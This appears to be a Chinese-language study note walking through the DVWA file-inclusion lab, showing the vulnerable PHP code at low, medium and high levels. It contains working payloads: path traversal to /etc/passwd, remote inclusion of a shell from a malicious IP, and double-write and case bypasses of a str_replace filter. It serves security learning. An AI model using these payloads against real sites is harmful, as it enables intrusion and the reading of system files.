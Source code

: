 - 特征：

  ```
  ?page=a.php
  ?home=b.html
  ?file=content
  ```

- 检测：

     ```
     ?file=../../../../etc/passwd
     ?page=file:///etc/passwd
     ?home=main.cgi
     ?page=http://www.a.com/1.php
     http://1.1.1.1/../../../../dir/file.txt
     ```




- File Inclusion_**low级别**漏洞利用
  
  - 构造远程url，`page=http://恶意ip/shell.php`这里shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。
  




- File Inclusion_**medium级别**代码分析

  ```php
  <?php
  // The page we wish to display
  $file = $_GET[ 'page' ];
  // Input validation
  $file = str_replace( array( "http://", "https://" ), "", $file );
  $file = str_replace( array( "../", "..\"" ), "", $file );
  ?> 
  ```
  
    - 使用了str_replace()函数将"http://","https://","../","..\"替换成空字符
  




- File Inclusion_**medium级别**漏洞利用

    - 使用str_replace函数是极其不安全的，因为可以使用**大小写绕过**或者是**双写绕过**替换规则。例如：`page=hthttps://tps://none.org.cn/test.txt`时，str_replace函数会将http://删除，于是剩余内容拼接成`page=https://none.org.cn/test.txt`，或用大小写绕过`page=Https://none.org.cn/test.txt`，成功执行远程命令。例如：`http://none.org.cn:81/vulnerabilities/fi/?page=..././..././..././etc/passwd`





- File Inclusion_**high级别**代码分析

  ```php
  <?php
  // The page we wish to display
  $file = $_GET[ 'page' ];
  // Input validation
  if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
      // This isn't the page we want!
      echo "ERROR: File not found!";
      exit;
  }
  ?> 
  ```
